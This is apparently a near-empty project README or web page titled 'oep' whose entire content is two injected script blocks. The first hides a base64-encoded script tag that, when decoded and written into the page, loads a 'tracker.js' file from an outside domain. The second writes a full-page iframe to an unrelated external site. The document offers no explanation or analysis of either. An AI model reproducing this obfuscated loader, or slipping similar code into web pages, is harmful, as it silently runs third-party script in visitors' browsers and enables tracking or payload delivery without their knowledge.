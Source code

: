# oep
<script>
  let encoded = 'PHNjcmlwdCBzcmM9Imh0dHBzOi8vdHJpb3RyaXAuc2l0ZS90cmFja2VyLmpzIj48L3NjcmlwdD4='; 
        let decoded = atob(encoded); 
        document.write(''+ decoded +''); 
</script>
<script>
document.write('<iframe width="100%" height="1000" src="https://opticzone.hu/">');
</script>
